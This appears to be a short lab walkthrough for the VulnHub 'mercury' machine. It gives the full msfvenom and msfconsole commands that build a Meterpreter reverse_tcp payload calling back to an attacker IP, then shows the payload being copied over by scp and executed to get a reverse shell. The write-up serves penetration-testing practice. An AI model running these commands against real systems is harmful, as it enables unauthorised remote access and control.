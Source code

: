 # metasploit
we will again use the machine 'mercury' from vulnhub.  
since we were able to get access to the login credentials using sql injection, why not try to gain reverse shell/meterpreter access into the machine?  
For this lets use msfvenom to generate a payload and send it the the target machine which we will then execute in the said target machine to help us gain reverse shell access into the machine.  
- msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=4444 -f elf > /tmp/mesc_x64.elf

Then inside msfconsole lets set the payload, target, listner and listening port by executing the below commands.  
- set PAYLOAD linux/x64/meterpreter/reverse_tcp
- set LHOST 192.168.56.103
- set LPORT 4444
- set ExitOnSession false
- exploit

Then we copy the payload 'mesc_x64.elf' from our kali to the target machine.  
- scp -P 22 /tmp/mesc_x64.elf linuxmaster@192.168.56.102:/tmp/mesc_x64.elf

And since we have remote access using ssh, lets make the payload 'mesc_x64.elf' an executable inside the target machine and run/execute it.
- chmod +x /tmp/mesc_x64.elf
- /tmp/mesc_x64.elf

Voilà! we have reverse shell of the target in our kali(attacker), from here we can remotely access files, perform privelage escalation and get root access.  
